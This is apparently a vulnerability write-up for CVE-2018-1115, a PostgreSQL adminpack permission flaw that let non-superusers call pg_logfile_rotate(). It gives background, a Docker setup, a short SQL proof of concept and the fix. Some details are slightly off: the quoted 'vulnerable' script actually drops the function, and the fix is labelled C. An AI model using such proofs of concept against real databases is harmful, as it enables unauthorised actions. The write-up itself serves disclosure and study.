


# CVE-2018-1115 CWE-732 PostgreSQL Access Control Circumvention

## Vulnerability Background
- **PostgreSQL:** PostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers extensibility, allowing users to customize data types, functions, and indexes, and also supports JSON and geospatial data.
- **pg_logfile_rotate() Function:** A function provided by the `adminpack` extension in PostgreSQL for manually triggering log rotation operations. Log rotation refers to archiving the current log file and starting a new one to prevent the log file from becoming too large or affecting system performance. This function is typically executed by superusers and is designed to help database administrators manage and maintain PostgreSQL log files, ensuring that log files do not grow unlimitedly and thus maintain healthy system operation. After executing this function, the log system closes the current log file and begins writing a new log file.
- **CWE-732: Incorrect Permission Assignment for Critical Resource** is a type of vulnerability describing permission management errors, referring to systems or applications failing to properly assign appropriate access permissions to critical resources such as files, directories, database tables, or sensitive operations. Such errors often allow unauthorized users or processes to access or modify these resources, thereby triggering security vulnerabilities. Common hazards of CWE-732 include data breaches, privilege escalation, system abuse, and leakage of sensitive information. In many cases, such vulnerabilities can be avoided by proper permission control and access control lists (ACLs).

## Vulnerability Mechanism
The `adminpack` extension `pg_logfile_rotate()` function in PostgreSQL lacks proper permission control, allowing ordinary users to run the function as well. Under normal circumstances, log rotation operations should only be performed by superusers, as they involve sensitive log management and possible system configurations. However, due to the lack of proper access control, ordinary users can bypass this restriction, forcibly triggering log rotation, which may lead to log leaks, abuse, or service interruptions. This improper permission control vulnerability allows attackers to perform sensitive operations that should be restricted without authorization.

## Vulnerability Location
Analysis of PostgreSQL 10.0 source code:

In contrib/adminpack/adminpack--1.0.sql, the function permission configuration in the extended SQL installation script is incorrect. `adminpack` Extension: When creating the `pg_logfile_rotate()` compatible function, it does not explicitly revoke the `EXECUTE` permissions granted to `PUBLIC` by default.

```sql
-- complain if script is sourced in psql, rather than via ALTER EXTENSION
\echo Use "ALTER EXTENSION adminpack UPDATE TO '1.1'" to load this file. \quit

/* ***********************************************
 * Administrative functions for PostgreSQL
 * *********************************************** */

/* generic file access functions */

CREATE OR REPLACE FUNCTION pg_catalog.pg_file_write(text, text, bool)
RETURNS bigint
AS 'MODULE_PATHNAME', 'pg_file_write_v1_1'
LANGUAGE C VOLATILE STRICT;

REVOKE EXECUTE ON FUNCTION pg_catalog.pg_file_write(text, text, bool) FROM PUBLIC;

CREATE OR REPLACE FUNCTION pg_catalog.pg_file_rename(text, text, text)
RETURNS bool
AS 'MODULE_PATHNAME', 'pg_file_rename_v1_1'
LANGUAGE C VOLATILE;

REVOKE EXECUTE ON FUNCTION pg_catalog.pg_file_rename(text, text, text) FROM PUBLIC;

CREATE OR REPLACE FUNCTION pg_catalog.pg_file_rename(text, text)
RETURNS bool
AS 'SELECT pg_catalog.pg_file_rename($1, $2, NULL::pg_catalog.text);'
LANGUAGE SQL VOLATILE STRICT;

CREATE OR REPLACE FUNCTION pg_catalog.pg_file_unlink(text)
RETURNS bool
AS 'MODULE_PATHNAME', 'pg_file_unlink_v1_1'
LANGUAGE C VOLATILE STRICT;

REVOKE EXECUTE ON FUNCTION pg_catalog.pg_file_unlink(text) FROM PUBLIC;

CREATE OR REPLACE FUNCTION pg_catalog.pg_logdir_ls()
RETURNS setof record
AS 'MODULE_PATHNAME', 'pg_logdir_ls_v1_1'
LANGUAGE C VOLATILE STRICT;

REVOKE EXECUTE ON FUNCTION pg_catalog.pg_logdir_ls() FROM PUBLIC;

/* These functions are now in the backend and callers should update to use those */

DROP FUNCTION pg_file_read(text, bigint, bigint);

DROP FUNCTION pg_file_length(text);

DROP FUNCTION pg_logfile_rotate();
```

## Remediation

Upgrade to PostgreSQL 10.4, 9.6.9, or a later release on the corresponding branch.
Added `adminpack--1.1--2.0.sql` and raised the default version of `adminpack.control` from `1.1` to `2.0` to ensure newly installed or upgraded `adminpack` extensions remain in the fixed version.

Added permission revocation statements for `pg_logfile_rotate()`. `contrib/adminpack/adminpack--1.0--1.1.sql` upgrade scripts were modified to retain only critical fix statements. Reclaim `pg_logfile_rotate()`'s default execution permissions from the `PUBLIC` role, preventing regular users from calling the function.

```c
REVOKE EXECUTE ON FUNCTION pg_catalog.pg_logfile_rotate() FROM PUBLIC;
```

## Affected Versions
**Affected version:** PostgreSQL:

- 9.x to 9.6.8
- 10.0 to 10.3

## Environment Setup
Start the Docker environment, PostgreSQL version 10.0, adminpack extension installed, administrator postgres, password postgres, database test exists, PoC code CVE-2018-1115-PoC.sql exists

```txt
NIST: NVD    Base Score:9.1 CRITICAL    Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:H
CNA:Red Hat, Inc.    Base Score:4.2 MEDIUM    Vector:CVSS:3.0/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:L
```

```txt
cpe:2.3:a:postgresql:postgresql:10.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Connect to the PostgreSQL database test in the container using Postgres user identity and run PoC code. After Step 3, you can see that the pg_logfile_rotate() function was successfully called.

```bash
docker exec -it postgres-10.0 psql -U postgres -d test -f CVE-2018-1115-PoC.sql
```



## PoC Analysis

```sql
-- Install the adminpack extension
CREATE EXTENSION adminpack;

-- Create a regular user
CREATE USER test_user;

-- Switch to the regular user role
SET ROLE test_user;

-- Ordinary users attempt to perform log rotation
SELECT pg_catalog.pg_logfile_rotate();
```

Because the pg_logfile_rotate() function did not properly restrict permissions, regular users `test_user` were able to successfully call `pg_logfile_rotate()` and enforce log rotation operations.

## References
[NVD - CVE-2018-1115](https://nvd.nist.gov/vuln/detail/CVE-2018-1115#range-14744494)

[adminpack: Revoke EXECUTE on pg_logfile_rotate() · postgres/postgres@7b34740](https://github.com/postgres/postgres/commit/7b347409fa2776fbaa4ec9c57365f48a2bbdb80c#diff-409f76327354df49188243ae9bb28657e01e24a920a51321aa6673dea77a70f7)
